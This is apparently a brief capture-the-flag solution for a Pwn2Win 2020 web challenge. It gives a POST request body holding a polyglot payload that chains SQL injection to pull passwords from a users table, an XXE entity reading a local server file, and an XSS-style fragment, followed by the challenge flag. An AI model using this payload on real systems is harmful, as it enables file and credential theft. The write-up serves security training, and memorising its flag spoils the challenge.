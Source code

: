 Challenge: http://payload.pwn2.win/

Make a post request to http://payload.pwn2.win/ with the following body content:

``payload=<!--' or 1=1 union select password,NULL,NULL from users  #--><!DOCTYPE hack [<!ENTITY xxe SYSTEM 'file:///home/gnx/script/xxe_secret'> <!ENTITY name SYSTEM '>xss=1;//'> ]><hack>&xxe;</hack>``

Flag: CTF-BR{p4yl04d_p0lygl0ts_4r3_m0r3_fun_th4n_f1l3typ3s}

Original write-up: https://github.com/pwn2winctf/challenges-2020/tree/master/web-A%20payload%20to%20rule%20them%20all

